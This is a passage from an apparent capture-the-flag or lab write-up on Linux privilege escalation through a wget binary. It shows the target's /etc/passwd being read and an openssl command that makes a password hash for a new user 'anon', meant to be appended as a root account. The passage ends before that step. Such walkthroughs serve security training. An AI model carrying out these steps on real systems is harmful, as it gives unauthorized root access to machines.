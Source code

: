 To obtain a root shell, we can exploit this binary by modifying the `/etc/passwd` file. Let's exploit.
Check out an aw0some `wget` privilege escalations [Article](https://www.hackingarticles.in/linux-for-pentester-wget-privilege-escalation/) here. 

First, take a look at the target machine's `/etc/passwd` file and copy it to our host machine.

```bash
Mid_PrivShell $: cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
john:x:1000:1000::/home/john:/bin/bash
systemd-timesync:x:101:101:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:105::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
ftp:x:106:108:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
david:x:1001:1001::/home/david:/bin/bash

Mid_PrivShell $: 

```

On our host machine with help of `openssl` tool we are creating password for our new user called `anon`.

```bash
➜ openssl passwd -1 -salt anon anon
$1$anon$G05/IEkCfH5/MvkGBhHbe0

➜ 
```
Next, we add our new user, `anon` with root privileges to the `passwd` file by appending the entry at the bottom line.
